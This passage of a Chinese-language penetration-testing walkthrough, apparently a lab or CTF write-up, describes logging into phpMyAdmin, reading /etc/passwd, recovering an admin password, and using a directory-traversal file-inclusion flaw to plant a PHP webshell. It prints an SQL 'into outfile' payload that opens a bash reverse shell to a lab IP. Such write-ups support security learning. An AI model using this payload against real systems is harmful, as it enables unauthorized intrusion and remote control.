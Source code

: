 ```
    // 断线标识字符串
    'break_match_str' => [],
];

```  
## 登录phpadmin  
  
使用解密出的用户名和密码进行登录。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYic0V9llsyynSOke4HaTrQfVGOYkzk0t2UArmsJAqiay8U2K1WamicpnmVA/640?wx_fmt=png&from=appmsg "")  
  
读取/etc/password。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYic2NjNWdhSXQN9l87NvObbk4mx0yrG2tTXdTP0L3ZcM48sxJucTgAhrw/640?wx_fmt=png&from=appmsg "")  
## 查找用户名和密码  
  
在数据库中，发现系统登录用户名和密码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYicQfJftXGMeKKhdVI7tkwZAJhlljdL8ngRB1WDrZQuibdGQ0wFnia3kd7w/640?wx_fmt=png&from=appmsg "")  
  
使用admin 1lovehackers进行登录。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYic8WappJx8ySPRicAfFmCib8B2xvibartSTULl1STowgiaMSfWKXhA5B4EvQ/640?wx_fmt=png&from=appmsg "")  
## 获取webshell  
  
首先去尝试写入phpinfo  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYicn9dibqRibibneoOLZPy09k1FQWtoHoibOPwYeFTMmyNA74JK5OQha0ImTQ/640?wx_fmt=png&from=appmsg "")  
### 文件包含漏洞  
  
然后在添加分类当中使用目录遍历写入tmp文件。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYic4JHWcvDNvPqibibPVWoZZmv5llTv0Ng9GPVBS35hIBIuVpbyicvDOFDeg/640?wx_fmt=png&from=appmsg "")  
  
写入payload，然后保存，进行反弹shell。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYicIf6Mah9cDdbic2DHnDzpRZTEHpPkw5BTSk2S1WW4EXbckD6iaFAuSoxQ/640?wx_fmt=png&from=appmsg "")  
### 反弹shell  
  
使用nc进行反弹shell。  
```
select '<?php system("bash -c \'bash -i >& /dev/tcp/192.168.10.128/2333 0>&1\'"); ?>' into outfile '/tmp/view.tpl'
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrm8HI98MfRPDRicQqEtIxYic983A9L5q5wJV9FdrhfwcHnwTxbwtfdBVNBc3L4cLajlOsHBibo3giatw/640?wx_fmt=png&from=appmsg "")  
# 内网渗透  
## 权限提升  
  
